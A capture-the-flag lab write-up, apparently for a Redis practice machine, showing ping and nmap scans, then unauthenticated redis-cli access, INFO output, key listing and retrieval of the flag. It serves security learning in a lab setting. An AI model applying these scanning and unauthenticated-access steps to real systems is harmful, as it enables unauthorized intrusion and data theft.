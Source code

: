 ---- 
## Initial Information

- Attacker IP = 10.129.241.49
- Victim IP = 10.129.223.81
---
## Initial scan

- Did initial ping to ensure that we can scan   this was succesful
```shell
ping 10.129.223.81
PING 10.129.223.81 (10.129.223.81) 56(84) bytes of data.
64 bytes from 10.129.223.81: icmp_seq=1 ttl=63 time=18.0 ms
64 bytes from 10.129.223.81: icmp_seq=2 ttl=63 time=18.2 ms
64 bytes from 10.129.223.81: icmp_seq=3 ttl=63 time=16.9 ms
64 bytes from 10.129.223.81: icmp_seq=4 ttl=63 time=17.2 ms
^C
--- 10.129.223.81 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3101ms
rtt min/avg/max/mdev = 16.937/17.563/18.213/0.532 ms
```

- Did an initial nmap scan to see if any if the initial 1000 ports were open, they were all closed
```shell

nmap -O 10.129.223.81 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-22 18:54 EDT
Nmap scan report for 10.129.223.81
Host is up (0.019s latency).
All 1000 scanned ports on 10.129.223.81 are in ignored states.
Not shown: 1000 closed tcp ports (reset)
Too many fingerprints match this host to give specific OS details
Network Distance: 2 hops

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3.11 seconds

```

- did a larger scan and found that redis is running on port 6379, couldnt find the OS 
```shell

nmap -p-  10.129.223.81 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-22 19:00 EDT
Nmap scan report for 10.129.223.81
Host is up (0.050s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE
6379/tcp open  redis

Nmap done: 1 IP address (1 host up) scanned in 24.58 seconds

```

- Logged in using the rediscli found 4 keys at index 0
```shell

redis-cli -h 10.129.223.81 -p 6379      


10.129.223.81:6379> info keyspace

 Server
redis_version:5.0.7
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:66bd629f924ac924
redis_mode:standalone
os:Linux 5.4.0-77-generic x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:9.3.0
process_id:753
run_id:9dfb827757f3d96e5afecaf674fb8c5d8a423ab8
tcp_port:6379
uptime_in_seconds:1474
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:1805250
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf

# Clients
connected_clients:1
client_recent_max_input_buffer:2
client_recent_max_output_buffer:0
blocked_clients:0

# Memory
used_memory:859624
used_memory_human:839.48K
used_memory_rss:5996544
used_memory_rss_human:5.72M
used_memory_peak:859624
used_memory_peak_human:839.48K
used_memory_peak_perc:100.12%
used_memory_overhead:846142
used_memory_startup:796224
used_memory_dataset:13482
used_memory_dataset_perc:21.26%
allocator_allocated:1546648
allocator_active:1880064
allocator_resident:9101312
total_system_memory:2084024320
total_system_memory_human:1.94G
used_memory_lua:41984
used_memory_lua_human:41.00K
used_memory_scripts:0
used_memory_scripts_human:0B
number_of_cached_scripts:0
maxmemory:0
maxmemory_human:0B
maxmemory_policy:noeviction
allocator_frag_ratio:1.22
allocator_frag_bytes:333416
allocator_rss_ratio:4.84
allocator_rss_bytes:7221248
rss_overhead_ratio:0.66
rss_overhead_bytes:-3104768
mem_fragmentation_ratio:7.33
mem_fragmentation_bytes:5178928
mem_not_counted_for_evict:0
mem_replication_backlog:0
mem_clients_slaves:0
mem_clients_normal:49694
mem_aof_buffer:0
mem_allocator:jemalloc-5.2.1
active_defrag_running:0
lazyfree_pending_objects:0

# Persistence
loading:0
rdb_changes_since_last_save:0
rdb_bgsave_in_progress:0
rdb_last_save_time:1679526277
rdb_last_bgsave_status:ok
rdb_last_bgsave_time_sec:0
rdb_current_bgsave_time_sec:-1
rdb_last_cow_size:413696
aof_enabled:0
aof_rewrite_in_progress:0
aof_rewrite_scheduled:0
aof_last_rewrite_time_sec:-1
aof_current_rewrite_time_sec:-1
aof_last_bgrewrite_status:ok
aof_last_write_status:ok
aof_last_cow_size:0

# Stats
total_connections_received:7
total_commands_processed:8
instantaneous_ops_per_sec:0
total_net_input_bytes:334
total_net_output_bytes:11586
instantaneous_input_kbps:0.00
instantaneous_output_kbps:0.00
rejected_connections:0
sync_full:0
sync_partial_ok:0
sync_partial_err:0
expired_keys:0
expired_stale_perc:0.00
expired_time_cap_reached_count:0
evicted_keys:0
keyspace_hits:0
keyspace_misses:0
pubsub_channels:0
pubsub_patterns:0
latest_fork_usec:383
migrate_cached_sockets:0
slave_expires_tracked_keys:0
active_defrag_hits:0
active_defrag_misses:0
active_defrag_key_hits:0
active_defrag_key_misses:0

# Replication
role:master
connected_slaves:0
master_replid:c35aa55fa471a7f745d2b899fd1302e309a032da
master_replid2:0000000000000000000000000000000000000000
master_repl_offset:0
second_repl_offset:-1
repl_backlog_active:0
repl_backlog_size:1048576
repl_backlog_first_byte_offset:0
repl_backlog_histlen:0

# CPU
used_cpu_sys:1.383408
used_cpu_user:1.578680
used_cpu_sys_children:0.000000
used_cpu_user_children:0.001848

# Cluster
cluster_enabled:0

# Keyspace
db0:keys=4,expires=0,avg_ttl=0



```


- Selected Index 0 and found the keys for it 
```shell
10.129.223.81:6379> SELECT 0
OK
10.129.223.81:6379> CLIENT LIST
id=9 addr=10.10.14.136:44828 fd=8 name= age=892 idle=0 flags=N db=0 sub=0 psub=0 multi=-1 qbuf=26 qbuf-free=32742 obl=0 oll=0 omem=0 events=r cmd=client
10.129.223.81:6379> keys *
1) "temp"
2) "stor"
3) "numb"
4) "flag"



```
- enumerate through the keys 
```shell

10.129.223.81:6379> get temp
"1c98492cd337252698d0c5f631dfb7ae"
10.129.223.81:6379> get stor
"e80d635f95686148284526e1980740f8"
10.129.223.81:6379> get numb
"bb2c8a7506ee45cc981eb88bb81dddab"
10.129.223.81:6379> get flag
"03e1d2b376c37ab3f5319922053953eb"
10.129.223.81:6379> 


```
Got the flag by enumerating through the keys

--- 
## Resources
- Nmap scan for more ports - https://nmap.org/book/port-scanning-options.html
- Redis Login and info command: https://redis.io/docs/ui/cli/#host-port-password-and-database
- Iteract over keys of a selected Index -https://scalegrid.io/blog/redis-iterating-over-keys/